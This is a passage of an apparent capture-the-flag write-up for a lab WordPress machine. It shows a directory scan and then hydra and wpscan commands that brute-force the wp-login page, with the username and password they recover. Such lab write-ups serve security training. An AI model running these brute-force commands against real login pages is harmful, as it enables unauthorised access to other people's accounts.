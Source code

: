 ```(Directory scan)
/rss2 (Status: 301)
/sitemap (Status: 200)
/sitemap.xml (Status: 200)
/video (Status: 301)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-config (Status: 200)
/wp-includes (Status: 301)
/wp-cron (Status: 200)
/wp-links-opml (Status: 200)
/wp-load (Status: 200)
/wp-login (Status: 200)
/wp-signup (Status: 302)

```

Upon further ennumeration this turns out to be a wordpress site and we have access to a login page at  (http://10.10.108.126/wp-login/)

Lets bruteforce this login page.


```(hydra)

	hydra -L fsocity.dic  -p test $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=Invalid username"
	
	Username: Elliot
	
	hydra -l Elliot -P fsocity.dic $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=The password you entered for the username Elliot is incorrect."

	Password: ER28-0652

```
	Lets login with the credentials now we can also use burpsuite to bruteforce or use wpscan.


```(wp scan)
	wpscan --url http://$IP -t 50 -U elliot -P fsocity_sorted.txt

	_______________________________________________________________
	         __          _______   _____
	         \ \        / /  __ \ / ____|
	          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
	           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
	            \  /\  /  | |     ____) | (__| (_| | | | |
	             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

	         WordPress Security Scanner by the WPScan Team
	                         Version 3.8.2
	       Sponsored by Automattic - https://automattic.com/
	       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
	_______________________________________________________________

	[+] URL: http://10.10.108.126/ [10.10.108.126]
	[+] Started: Wed Jul 15 17:18:41 2020

	Interesting Finding(s):

	[+] Headers
	 | Interesting Entries:
	 |  - Server: Apache
	 |  - X-Mod-Pagespeed: 1.9.32.3-4523
	 | Found By: Headers (Passive Detection)
	 | Confidence: 100%
```